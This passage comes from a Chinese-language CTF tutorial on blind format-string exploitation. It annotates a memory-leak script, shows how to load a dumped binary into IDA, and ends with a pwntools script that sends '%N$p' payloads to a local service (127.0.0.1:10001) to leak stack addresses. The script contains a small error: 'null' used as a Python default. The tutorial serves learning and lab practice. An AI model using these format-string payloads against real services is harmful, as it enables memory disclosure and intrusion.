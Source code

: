 **注解**：

* 19-21 行：处理无关泄露的程序流程后，进入格式化字符串漏洞输入状态
* 24 行：32 位系统加载地址
* 9 行："%9$s.TMP" 中的 .TMP 既是填充对齐，也是分隔符，方便后面处理数据
* 14 行：使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
* 15 行：r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
* 30 行：泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3 
* 31-33 行：处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00

运行之后，耐心等待泄漏完成。泄漏出来的程序是不能运行的，但可以在 ida 进过处理可以进行分析、找 plt 、got.plt 等。

将泄漏出来的程序，放入 ida ，启动时选择**以 binary file 加载**，勾选 **Load as code segment**，并**调整偏移为： 0x8048000 **（开始泄露的地址）：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-26-oxwzGb3pT5h8FyVj.png)

可以通过 shift+F12 查字符串定位到 main 函数，然后直接 F5 反编译：

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200626230020.png)

基本结构已经出来了，盲打没有源代码，就需要根据传入参数去判断哪个 sub_xxx 是哪个函数了。比如输出格式化字符串的 sub_8048490 就是 printf 。

#### 从 .text 段开始

程序启动过程：

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200627002443.png)

从 _start 函数开始就是 .text 段，可以在 ida 中打开一个正常的 binary 观察 text 段开头第一个函数就是 _stat ：（图为 32 位程序）

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-27-ClxPYjJqw26gj8Ff.png)

先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32位：0x8048000；64位：0x400000）。脚本如下：

```python
from pwn import *
import sys

p = remote('127.0.0.1',10001)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```
